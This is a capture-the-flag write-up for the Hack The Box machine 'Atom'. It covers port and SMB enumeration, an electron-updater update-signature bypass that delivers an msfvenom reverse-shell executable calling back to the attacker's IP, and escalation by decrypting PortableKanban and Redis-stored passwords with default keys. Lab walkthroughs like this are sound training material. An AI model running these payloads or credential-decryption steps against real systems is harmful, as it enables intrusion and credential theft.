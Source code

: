 # Enumeration.

Nmap port scanning.

``` bash
# Nmap 7.91 scan initiated Sun Jul 11 12:02:21 2021 as: nmap -p- --open -T5 -v -n -Pn -oN allPorts 10.10.10.237
Nmap scan report for 10.10.10.237
Host is up (0.14s latency).
Not shown: 65529 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
5985/tcp open  wsman
6379/tcp open  redis

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sun Jul 11 12:05:54 2021 -- 1 IP address (1 host up) scanned in 212.42 seconds
```

``` bash
# Nmap 7.91 scan initiated Sun Jul 11 12:08:52 2021 as: nmap -sC -sV -p80,135,443,445,59585,6379 -oN targeted 10.10.10.237
Nmap scan report for 10.10.10.237
Host is up (0.17s latency).

PORT      STATE    SERVICE      VERSION
80/tcp    open     http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp   open     msrpc        Microsoft Windows RPC
443/tcp   open     ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open     microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
6379/tcp  open     redis        Redis key-value store
59585/tcp filtered unknown
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h32m25s, deviation: 4h02m32s, median: 12m23s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: ATOM
|   NetBIOS computer name: ATOM\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-11T10:21:52-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-11T17:21:50
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 11 12:10:05 2021 -- 1 IP address (1 host up) scanned in 72.24 seconds
```

I notice that has a SMB client, lets enumerate with it.

``` bash
smbmap -u anonymous -p anonymous -H 10.10.10.237
[+] Guest session       IP: 10.10.10.237:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        Software_Updates                                        READ, WRITE
```

There are one readable directory, `Software_Updates`.

Lets check what it has.

``` bash
smbmap -u anonymous -p anonymous -H 10.10.10.237 -R Software_Updates                                                                                                                                     took  6s
[+] Guest session       IP: 10.10.10.237:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Software_Updates                                        READ, WRITE
        .\Software_Updates\*
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    .
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    ..
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    client1
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    client2
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    client3
        fr--r--r--            35202 Fri Apr  9 06:18:08 2021    UAT_Testing_Procedures.pdf
```

Look like we got some client's directories, but without name or credentials, and a `.pdf` lets get that file and read it.

``` bash
smbmap -u anonymous -p anonymous -H 10.10.10.237 --download Software_Updates/UAT_Testing_Procedures.pdf                                                                                                      ✘ INT
[+] Starting download: Software_Updates\UAT_Testing_Procedures.pdf (35202 bytes)
[+] File output to: /home/oredreim/Documents/hacking/htb/atom/nmap/10.10.10.237-Software_Updates_UAT_Testing_Procedures.pdf
```
<img src="/assets/img/atom/1.png">

So, after reading the document, I notice that it says I can update file to the clients directories, and also says that it will test, upgrade and install the files. Now, what the hell do, cause i have no idea how can i update the files.

Well! actually I do, I can use and other tool, `smbclient`, and get access as `anonymous` user and I can put files on the `Software_Updates`. 

Then I notice that there is some crazy things, electron builder.

What in the hell is an `electron-builder`. But before start searching, lets take a look at the web site, cause there is also something interesting to get, there is a file I can download, so lets move on and do it and check what it has.

<img src="/assets/img/atom/2.png">

So now, lets unzip de `.exe` cause i cant execute that file but i can check what it has inside with `7z x heed.exe`.


And it drop us and other directory that Im gonna change the name cause i dont like that name.

<img src="/assets/img/atom/3.png">

This is what I got. And there is also and other `.zip` file so lets keep unzipping.

<img src="/assets/img/atom/4.png">

There you go, finally we got everything to check in. Now lets move into the directory `resources` and we see some file, if I check the `.yml` file I see there is and other domain `update.atom.htb`.

<img src="/assets/img/atom/5.png">
 
Lets put it in the Hosts.

Now lets to the `electron-builder`.

What the hell is that? after searching and reading a lot of innecesary documentations. I decide to search for an exploit and I understand that the `electron-builder` is vulnerable to RCE.

https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

<img src="/assets/img/atom/6.png">

Lets get the `.yml` script.

<img src="/assets/img/atom/7png">

And lets create our executable `.exe` to update.
``` bash 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.48 LPORT=4444 -f exe -o shell.exe
```

Ok I got a `.yml` and `.exe` file to exploit the `electron-builder`. But is not that simple, we need to change something in the `.yml` cause if you read it, you understand that there is some encryption, `sha512` to update the file, lets do it to the `.exe` file so it wont give us problems.

``` bash 
 sha512sum shell.exe | awk '{print $1}' | xxd -r -p | base64 -w 0
6vGfWVFFa8/7YEesVXU3NmZ35QIhnPwp9otBh5AVUclt1sAGP/986KEGmnXT02KMO65vmlP060HcmApKgyjf4w==
```

Now put the `BASE64` on the `.yml` script and change some things too, lets change the version cause as I read before it will upgrade the files and some other things, lets try to get one version that it may not change, and change the name file to the one we made, but check that the file must have a `'` so it will execute. 

<img src="/assets/img/atom/8.png">

Then we upload the files in one of the clients directories, and wait till we get the revershell from the port we open.

<img src="/assets/img/atom/9.png">
<img src="/assets/img/atom/10.png">
<img src="/assets/img/atom/11.png">

# Privilage Scalation.
After looking all the directories and files, I check a one in the Downloads named `PortableKanban` with some file, one named `PortableKanban.cfg`.

<img src="/assets/img/atom/12.png">

This is too much information to read like that, I need to make it possible to read.

<img src="/assets/img/atom/13.png">

Much better!!! now lets find some credentials

<img src="/assets/img/atom/14.png">

I got one encrypted, I asume that it is a `BASE64` but is not that simple to decrypt this password, cause kanban do his on way, with some keys, so lets find out the keys.

I find a epxloit that use the default keys, but want to use it, Im gonna copy the keys and insert them into cyberchef, cause for me is easier.

<img src="/assets/img/atom/15.png">

<img src="/assets/img/atom/16.png">

As I said, it is `BASE64` so lets put that is from base64, and as in the exploit I take the keys, lets put the Deskeys, and there you go, you crack the password.

<img src="/assets/img/atom/17.png">

So, i made a connection with redis. cause thats what we are gonna use to connect with the kanban key.

I send the authentication and works.

Lets now try to list the keys. There is one interesting key, lets check it.

<img src="/assets/img/atom/18.png">

The `pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0` is the one we need.

<img src="/assets/img/atom/19.png">

It's the key to administrator. Lets go back to `cyberchef` and decrypt the password.

<img src="/assets/img/atom/20.png">

Looks to similar to the one we decrypted before, but this one will work with psexec.py to get administrator access.

<img src="/assets/img/atom/21.png">





